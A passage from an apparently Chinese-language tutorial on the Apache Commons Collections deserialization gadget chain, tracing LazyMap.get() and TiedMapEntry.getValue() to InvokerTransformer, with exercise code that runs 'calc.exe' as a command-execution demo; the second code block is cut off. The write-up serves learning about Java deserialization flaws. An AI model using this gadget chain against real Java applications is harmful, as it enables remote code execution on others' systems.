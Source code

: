 find usages 告诉我们 org.apache.commons.collections.map.**LazyMap.get()** 调用了 InvokerTransformer.transform()：

![](https://i.imgur.com/p0HUnog.png)

**小练习：**
此处可以尝试用 get() 方法续上之前的 transform() 进行命令执行。

> 看看源码中各个类的构造函数，你如何才能得到他们的实例？如何能调用他们的方法？调用他们的方法时应该传入什么样的参数才可命令执行呢？


以下是我的代码：
```java
public class Test {
    public static void main(String[] args) {
        // 1. 构造 Runtime 类对象
        Runtime runtime = Runtime.getRuntime();

        // 2. 构造 InvokerTransformer 类对象，直接调用 public 的那个构造方法即可

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"});


        // 3. 构造 LazyMap 类对象，虽然构造方法是 protected，
        // 但 decorate 方法允许我们构造 LazyMap 类对象，注意需要强制类型转换，因为返回的是一个 Map

        HashMap<String,String> hashMap = new HashMap<>();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap,invokerTransformer);

        lazyMap.get(runtime);
        
    }
}
```

### 3. TiedMapEntry.getValue()

继续探寻链子的上一步，在 get() 方法处 find Usuages，然后会发现多达上千个结果，此处直接拾人牙慧。

根据 ysoserial 官方的链子，org.apache.commons.collections.keyvalue.**TiedMapEntry.getValue()** 方法调用了 LazyMap.get()。

>这里我们是否能学到一些漏洞挖掘技巧呢？比如先从同一个包下开始寻找链子，因为 get() 和 getValue() 都是 CC 包下的。

![](https://i.imgur.com/Hxllc6S.png)

很简短的代码，从上一步看过来的我们知道，只要让当前的 map 为 LazyMap 实例，key 为 Runtime 实例，那么就可以进行命令执行。

**小练习1：**
继续依据现有链子写出命令执行 demo。

我的代码：
```java
public static void main(String[] args) {
        // 1. 构造 Runtime 类对象
        Runtime runtime = Runtime.getRuntime();

        // 2. 构造 InvokerTransformer 类对象，直接调用 public 的那个构造方法即可

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"});


        // 3. 构造 LazyMap 类对象，虽然构造方法是 protected，
        // 但 decorate 方法允许我们构造 LazyMap 类对象，注意需要强制类型转换，因为返回的是一个 Map

```